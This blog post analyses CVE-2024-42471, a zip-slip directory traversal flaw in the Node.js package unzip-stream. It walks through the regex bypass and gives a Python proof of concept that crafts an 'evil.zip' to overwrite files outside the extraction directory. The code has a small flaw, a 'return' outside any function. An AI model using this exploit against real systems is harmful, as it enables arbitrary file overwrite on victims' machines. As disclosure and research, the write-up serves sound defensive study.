 ```yaml
---
title: CVE-2024-42471 - unzip-stream Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-unzip-stream-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-42471

## Introduction
Zip it, unzip it — and boom, you've got unintended file writes on your hands.

In this post, we dive into a directory traversal vulnerability in the popular Node.js package [`unzip-stream`](https://www.npmjs.com/package/unzip-stream), specifically affecting versions **before 0.3.2**. When using the `Extract()` method to decompress zip files, a specially crafted archive can escape the intended extraction directory and **write files to arbitrary locations** on the file system.

In this blog post, we’ll break down the bug and walk through a working proof-of-concept (PoC).

## Vulnerability Analysis
After developing an exploit for [CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx), I became curious about other file write or overwrite vulnerabilities that lacked a public proof-of-concept (PoC). During that exploration, I came across [CVE-2024-42471](https://github.com/advisories/GHSA-6jrj-vc65-c983).

Once again, I decided to roll up my sleeves and develop an exploit for this vulnerability. In this post, I’ll walk you through the process, from vulnerability analysis to crafting a working PoC that demonstrates the risks involved.

I started off by looking at the [commit](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a) that fixed the vulnerability and basically the patch diff.

In *Figure 1* we can see the commit and that line `291` was deleted and replaced. 
![GitHub commit](github_patch_diff.png)

Firstly, the `entry.path` object in `unzip-stream` determines the path of the file within the zip archive, and this path is then used by `unzip-stream` to decide where to extract the file on the target system.

The original code (highlighted in red) relied on a regular expression to detect and remove directory traversal sequences. However, this approach was limited and prone to bypasses. To address this, the code was updated with a newer implementation (shown in green), which aims to handle the directory traversal issue more effectively.


To better understand how this regex behaves, we can use [Regexr](https://regexr.com/) to test various payloads.

For instance, when testing the classic directory traversal pattern `../`, we immediately get a match:

![Testing Raw Directory Traversal](testing_with_regexr.png)
*Figure 1: Testing the regex filter*

Upon further examination of the regex, I realized that it only matches strings that begin with the `../` pattern. This creates an opportunity for bypassing the filter by using alternative traversal strings, such as `hack/../../../`, which the regex does not catch.

This bypass technique is demonstrated in *Figure 2*.

![Bypassing Regex](bypassing_regex_on_regexr.png)
*Figure 2: Bypassing the regex filter*

As shown, this approach successfully bypasses the regex and allows for directory traversal, exposing the limitations of the old filtering mechanism.

This implies that an attacker can craft a zip file containing file paths with directory traversal strings. By doing so, they can manipulate the extraction process to point to files located outside the intended extraction directory, potentially overwriting sensitive files or causing other unintended behavior.

## Exploit Development
I developed a working exploit using Python. The core idea is to modify the path of the file within the zip archive to include directory traversal sequences before packaging it. This tricks the vulnerable `unzip-stream` extractor into writing files outside of the intended directory.

```python
import zipfile
import os

file_path = './poc'
zip_name = 'evil.zip'
path_to_overwrite_file = 'home/mcsam/pocc'

if not os.path.isfile(file_path):
    print(f"Error: File '{file_path}' does not exist.")
    return

with zipfile.ZipFile(zip_name, 'w', zipfile.ZIP_DEFLATED) as zipf:
    zipf.write(file_path, \
    arcname=f'hack/../../../../../../../../../../../../../../{path_to_overwrite_file}')
    print(f"File '{file_path}' has been zipped as '{zip_name}'.")
```

There’s an important issue we need to address. The built-in Python `zipfile` library enforces a restriction that prevents  `arcnames` starting with alphanumeric characters from containing directory traversal sequences like `../`. FYI arcname is the name that will be used for the file within the archive.

Because of this limitation, I had to manually patch the `zipfile.py` module to disable the validation check that enforces this behavior. This allowed me to create zip entries with traversal paths necessary for the exploit to work.

On my system the path to the file was: `/usr/lib/python3.10/zipfile.py`. I commented out the check and the i run the exploit to craft the malicious zip file.
![Patching Zipfile for python3](patching_zipfile_python3.png)

The contents of the zip file should look like this after running the exploit:
```
mcsam@0x32:~/Documents/slippy$ unzip -l evil.zip 
Archive:  evil.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2025-04-18 18:35   hack/../../../../../../../../../../../../../../home/mcsam/pocc
---------                     -------
       15                     1 file
```

## Verifying / Testing the Exploit

To test this PoC, we first set up a development environment and install the vulnerable version of `unzip-stream` using:

```
npm install unzip-stream@0.3.1
```

Next, I crafted a simple test script (`index.js`) that imports `unzip-stream` and extracts the malicious archive:
```
const unzip = require('unzip-stream');
const fs = require('fs');

fs.createReadStream('evil.zip').pipe(unzip.Extract({ path: './hack' }));
```

After executing the script with:
```
node index.js
```
the payload is triggered, and the file `/home/msam/pocc` is successfully overwritten — confirming the exploit works as intended.

#### Verifying the exploit
![Final file overwrite](successfull_file_overwrite.png)

## References
- [https://github.com/advisories/GHSA-6jrj-vc65-c983](https://github.com/advisories/GHSA-6jrj-vc65-c983)
- [https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a)
- [https://www.npmjs.com/package/unzip-stream](https://www.npmjs.com/package/unzip-stream)